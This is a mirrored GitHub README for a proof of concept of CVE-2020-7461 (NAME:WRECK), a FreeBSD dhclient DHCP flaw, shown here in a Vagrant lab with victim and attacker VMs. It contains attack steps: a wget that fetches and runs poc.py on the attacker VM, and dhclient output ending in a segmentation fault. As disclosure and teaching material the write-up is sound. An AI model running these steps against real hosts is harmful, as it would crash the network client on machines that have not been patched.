 # CVE-2020-7461

PoC for DHCP vulnerability (NAME:WRECK) in FreeBSD

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/knqyf263](https://github.com/knqyf263) |
| Url      | [https://github.com/knqyf263/CVE-2020-7461](https://github.com/knqyf263/CVE-2020-7461)                                               |
| Stars    | 15                                                          |
| License  | MIT License                                                        |

<details>

<summary>Topic / Tags</summary>



</details>

## Readme

# CVE-2020-7461
PoC for DHCP vulnerability (NAME:WRECK) in FreeBSD

For educational purposes only

## Environment
- Host: macOS 11.2.1
- Vagrant: 2.2.15
- Victim: FreeBSD 12.1-STABLE r364849
- Attacker: Ubuntu 20.04

## Disclaimer
This PoC will cause DoS instead of RCE to prevent abuse.

## PoC 

![wreck](imgs/wreck.png)

### Turn off DHCP server in VirtualBox

![dhcp](imgs/dhcp.png)

### Launch VMs

```
$ cd victim
$ vagrant up
$ cd ..
```

```
$ cd attacker
$ vagrant up
$ vagrant ssh
vagrant@vagrant:~$ sudo apt -y update && apt -y install python3 python3-pip
vagrant@vagrant:~$ wget https://raw.githubusercontent.com/knqyf263/CVE-2020-7461/main/poc.py
vagrant@vagrant:~$ python3 poc.py
Sniffing...
```

### Run dhclient

Open another terminal

```
$ cd victim
$ vagrant ssh
vagrant@freebsd:~ % sudo dhclient em1
DHCPREQUEST on em1 to 255.255.255.255 port 67
Invalid forward pointer in DHCP Domain Search option compression.
Segmentation fault
```

## References
- https://www.forescout.com/company/resources/namewreck-breaking-and-fixing-dns-implementations/
- https://www.freebsd.org/security/advisories/FreeBSD-SA-20:26.dhclient.asc

## Author
Teppei Fukuda



## Get the content

```
git clone https://github.com/knqyf263/CVE-2020-7461
cd CVE-2020-7461
```

{% embed url="https://github.com/knqyf263/CVE-2020-7461" %}

<figure><img src="https://avatars.githubusercontent.com/u/2253692?v=4" alt=""><figcaption><p>knqyf263</p></figcaption></figure>

